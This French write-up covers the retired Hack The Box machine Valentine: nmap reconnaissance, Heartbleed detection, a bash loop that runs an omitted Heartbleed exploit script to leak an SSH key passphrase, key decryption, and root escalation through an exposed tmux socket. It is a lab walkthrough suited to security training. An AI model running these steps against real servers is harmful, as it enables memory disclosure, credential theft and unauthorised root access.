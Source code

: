 
---
title: "Valentine.htb version 1 — Hack The Box"
date: 2025-08-04
draft: false
description: "Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux."
tags: ["HTB", "CTF", "Heartbleed", "Privilege Escalation", "Linux"]
---

> Machine retirée de Hack The Box — difficulté *Easy*  
> Auteur : egre55

---

## 🧭 Reconnaissance

Scan initial :

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

## 🔎 Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## 💉 Exploitation — Heartbleed (CVE-2014-0160)

Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

### 🔧 Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### 🐍 Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

## 🔓 Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🚀 Escalade de privilèges

Une fois connecté en `hype`, on lance `linpeas.sh` :

```bash
./linpeas.sh
```

Ce dernier met en évidence une session `tmux` lancée en tant que root :

```
/usr/bin/tmux -S /.devs/dev_sess
```

On vérifie avec :

```bash
ls -la /.devs/
tmux -S /.devs/dev_sess attach
```

Bingo : une session root est accessible.

---

## 🏁 Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## 📎 Pièces jointes

- [`heartbleed_full.sh`](./heartbleed_full.sh)
- [`heartbleed-exploit.py`](./heartbleed-exploit.py)

---

## 🔚 Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

> 🎯 Entraîne-toi à automatiser ce type d’exploitation, et n’oublie jamais d’examiner les résultats de `linpeas` en détail !
